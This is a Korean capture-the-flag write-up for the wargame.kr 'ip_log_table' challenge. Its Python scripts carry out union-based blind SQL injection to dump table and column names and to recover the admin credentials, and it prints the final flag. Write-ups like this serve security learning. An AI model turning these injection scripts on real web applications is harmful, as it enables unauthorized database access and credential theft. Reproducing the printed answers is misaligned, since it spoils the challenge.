 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-33-18.png)

# **Write-Up**

접속 아이피에 대한 테이블이다.

![](images/2022-01-03-00-33-46.png)

admin login을 눌러서 다음과 같이 기본적인 SQLi를 시도해보지만 login fail이라고 한다.

![](images/2022-01-03-00-33-51.png)

테이블 중 한 행을 클릭하면 idx에 해당 idx번호를 넘겨 POST로 전달한다.

![](images/2022-01-03-00-33-55.png)

다음과 같은 Python script로 검증을 해본다.

```python
import urllib
import urllib.request
url     = 'http://wargame.kr:8080/ip_log_table/chk.php'
params  = urllib.parse.urlencode({'idx':'47883'}).encode()
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request = urllib.request.Request(url, headers = headers, data = params)

try:
    response = urllib.request.urlopen(request)
    print(response.read().decode())
except Exception as e:
    print(e)

[Output]
IP log time : <b>2021-08-31 22:23:08</b>
```

union을 이용하여 SQLi를 시도한다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'47883 union select 1--'}).encode()
... 생략 ...

[Output]
IP log time : <b>2021-08-31 22:23:08</b>
```

컬럼 수를 늘리니 시간이 1970-1-1 09:00:00으로 된다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'47883 union select 1,2--'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:00:00</b>
```

idx를 살짝 바꿔봤더니 초가 1로 됐다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'0 union select 1'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:00:01</b>
```

idx를 다시 바꿔봤더니 1분 5초로 나왔다. 즉, 0 union select 숫자를 넣었을 때, 쿼리가 된다면 1970-1-1 09:00:00부터 숫자까지의 차이를 더해준다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'0 union select 65'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:01:05</b>
```

쿼리를 이용하여 blind SQLi를 시도하자. 쿼리를 다음과 같이 조합한다.

1. select table_name from information_schema.tables limit 0,1
    
    - DB의 모든 테이블 중 첫번째를 선택

2. substr((1번 쿼리),1,1)

    - 1번 쿼리의 결과로 반환된 문자열 중 첫번째 글자 선택

3. union select ord(1+2번 쿼리)

    - 1+2번 쿼리의 결과로 반환된 문자를 숫자(ASCII 코드의 10진수)로 변환

알고리즘은 다음과 같다.

1. 쿼리의 결과가 1970-01-01 09:00:00인지 확인

    - 아니라면 쿼리가 성공했다는 뜻으로 진행

2. 반환된 날짜 - 1970-01-10 09:00:00을 초로 환산

3. 초를 문자로 변환

4. 1번 조건에 걸릴 때까지 3번의 결과를 이어 붙히면 테이블명 완성

모든 테이블을 조회하는 Python script는 다음과 같다.

```python
import urllib
import urllib.request
import datetime

url     = 'http://wargame.kr:8080/ip_log_table/chk.php'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(0, 100):
    table   = ''
    for j in range(1, 50):
        value   = '0 union select ord(substr((select table_name from information_schema.tables limit {0},1),{1},1))'.format(i, j)
        params  = urllib.parse.urlencode({'idx':value}).encode()
        request = urllib.request.Request(url, headers = headers, data = params)
        try:
            response        = urllib.request.urlopen(request)
            original_text   = response.read().decode()                  # return html source
            if '1970-01-01 09:00:00' in original_text:
                if table != '' : print('[{}] {}'.format(i, table))
                break
            start_idx       = original_text.find('<b>') + len('<b>')
            end_idx         = original_text.find('</b>')
            datetime_string = original_text[start_idx:end_idx]          # extract only date time

            date_time       = datetime.datetime.strptime(datetime_string, "%Y-%m-%d %H:%M:%S") # string date to date
            a_timedelta     = date_time - datetime.datetime(1970, 1, 1, 9, 0, 0) # subtract
            seconds         = int(a_timedelta.total_seconds()) # to seconds
            table += chr(seconds) # to ascii
        except urllib.error.HTTPError as e:
            print(e.code)
            print(e.read())
        except urllib.error.URLError as e:
            print(e.reason)
script를 실행시키면 70번째에 FLAG가 들어있을 법한 admin_table이라는 테이블을 찾을 수 있다.

... 생략 ...
[69] INNODB_CHANGED_PAGES
[70] admin_table
[71] ip_table
```

이제 컬럼명을 알아보자. 모든 DB와 테이블에는 컬럼이 매우 많이 깨문에 i의 시작점을 크게 설정하면 의심스러운 컬럼명을 알아낼 수 있다.

```python
... 생략 ...
for i in range(680, 700):
... 생략 ...
        value   = '0 union select ord(substr((select column_name from information_schema.columns limit {0},1),{1},1))'.format(i, j)
... 생략 ...
700 ~ 702는 로그 테이블의 컬럼명으로 추측되고, admin_table의 컬럼은 697 ~ 699인 것 같다.

... 생략 ...
[698] id
[699] ps
[700] idx
[701] ip
[702] tm
```

id를 알아보자.

```python
... 생략 ...
for i in range(0, 10):
... 생략 ...
        value   = '0 union select ord(substr((select id from admin_table limit {0},1),{1},1))'.format(i, j)
... 생략 ...

[Output]
[0] blue_admin
```

ps를 알아보자.

```python
... 생략 ...
        value   = '0 union select ord(substr((select ps from admin_table limit {0},1),{1},1))'.format(i, j)
... 생략 ...

[Output]
[0] 0h~myp4ss!
```

admin login을 하러간다.

login 버튼을 누르면 FLAG를 획득할 수 있다.

![](images/2022-01-03-00-36-35.png)


# **FLAG**

**cff52b570485a200c2f7f2e5d83306a964ec82a0**